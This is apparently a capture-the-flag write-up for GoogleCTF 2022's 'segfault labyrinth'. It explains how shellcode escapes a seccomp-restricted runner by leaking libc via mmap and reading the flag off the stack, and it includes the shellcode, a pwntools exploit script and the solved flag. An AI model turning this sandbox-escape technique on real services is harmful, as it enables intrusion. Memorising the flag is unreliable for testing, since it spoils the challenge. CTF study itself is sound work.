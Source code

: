 # GoogleCTF 2022 - segfault labyrinth

# Challenge Description

```
Be careful! One wrong turn and the whole thing comes crashing down

nc segfault-labyrinth.2022.ctfcompetition.com 1337

Solves: (189 pt/ 56 solves)
```

The challenge code can be found here: [https://github.com/google/google-ctf/tree/master/2022/misc-segfault-labyrinth](https://github.com/google/google-ctf/tree/master/2022/misc-segfault-labyrinth)

# Inspection

I first put the challenge binary into ghidra and start reversing. We can see that the challenge binary reads the size of the input, read the shellcode, and then execute the shellcode.

![Reading shellcode](/img/GoogleCTF2022-segfault-labyrinth-read.png)

We also know that there are some seccomp rule implemented, so we dump it through `seccomp-tools`

![Seccomp tools output](/img/GoogleCTF2022-segfault-labyrinth-seccomp.png)

That’s quite a specific list of syscall allowed. We know that the flag is read into the memory already, so we just need to find the location and then write it. From the code below we know that there is still a reference to the flag string on the stack, since the flag pointer is never overwritten again.

![Reversing to find flag on stack](/img/GoogleCTF2022-segfault-labyrinth-rev-flag.png)

# Checking environment

To start the exploit, I decide to checkout what state we have to work with when the code start executing our code. By sending “\xcc” as our shellcode, we can trap the process at the start of the shellcode. 

![Shellcode execute environment](/img/GoogleCTF2022-segfault-labyrinth-env.png)

It seems like there wasn’t much to work with, only rdi is left, which doesn’t seems to point to anything useful. I start searching for ways to obtain a stack address, since then we can use a offset to the flag point and read the flag. Reading the blog post [https://nickgregory.me/post/2019/04/06/pivoting-around-memory/](https://nickgregory.me/post/2019/04/06/pivoting-around-memory/), I know that if I leaked the libc base address, I can leverage the environment pointer to get to the stack. After that I’ll just need to find the offset from the environment to the flag to write it out.

# Syscall - mmap

So now, how do I get a libc address without any reference? Maybe somehow the syscall allowed can provide some useful information. From doing heap exploitation before, I know there is a common trick to leak libc address by mallocing a large chunk, which make libc use mmap to allocate the chunk ([https://github.com/bennofs/docs/blob/master/hxp-2017/impossible.md](https://github.com/bennofs/docs/blob/master/hxp-2017/impossible.md)). 

If we call mmap with a null pointer as address, the kernel will decide where the new chunk should be placed at. Apparently the kernel tend to allocate chunks next to each other, though this is not guaranteed in the manual. From my understanding, since libc is mmaped by the loader, if we mmaped another large chunk again, the kernel will put it next to libc, so the offset to libc is fixed.

![mmap manual](/img/GoogleCTF2022-segfault-labyrinth-mmap.png)

When testing this behavior, I notice that it worked if the chunk is large enough that it doesn’t fit into the gap between loader and libc. So I mmaped a 0x100000 size chuck to get libc, then used that to get libc environment point. After that it’s smooth sailing to print out the flag. The final shellcode is shown below. See appendix for the full exploit code.

```markdown
// mmap large chunk to get libc
mov rax, 9
mov rdi, 0
mov rsi, 0x100000
mov rdx, 0x7
mov r10, 0x22
mov r8,  -1
mov r9,  0
syscall

//get stack from libc environ
add rax, 0x2ef600
mov rsp, [rax]

//print flag
mov rax, 1
mov rdi, 1
mov rdx, 0x100
mov rsi, [rsp-0x240]
syscall
```

P.S. While I am writing this write up, I notice that this wasn’t 100% consistent in the remote environment. It worked around 1/2 of the time, so just run it a few times if it doesn’t work.

![executing the exploit](/img/GoogleCTF2022-segfault-labyrinth-exec.png)

Flag: `CTF{c0ngratulat1ons_oN_m4k1nG_1t_thr0uGh_th3_l4Byr1nth}` 

# Appendix - exp.py

{% capture exp_py %}
```python
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
gdb_script = '''
'''

file_name = './challenge'
p = process(file_name)
elf = ELF(file_name)
context.binary = file_name
#libc = ELF('')
nc_str = 'nc segfault-labyrinth.2022.ctfcompetition.com 1337'
HOST = nc_str.split(' ')[1]
PORT = nc_str.split(' ')[2]
p = remote(HOST, PORT)

#gdb.attach(p, gdb_script)

shellcode = '''
// mmap large chunk to get libc
mov rax, 9
mov rdi, 0
mov rsi, 0x100000
mov rdx, 0x7
mov r10, 0x22
mov r8,  -1
mov r9,  0
syscall

//get stack from libc environ
add rax, 0x2ef600
mov rbx, [rax]

//print flag
mov rax, 1
mov rdi, 1
mov rdx, 0x100
mov rsi, [rbx-0x240]
syscall
'''

shellcode = asm(shellcode)
p.send(p64(len(shellcode)))
p.send(shellcode)

p.interactive()
```

{% endcapture %}

{% include widgets/toggle-field.html toggle-name="exp_py"
    button-text="Show exp.py" toggle-text=exp_py%}


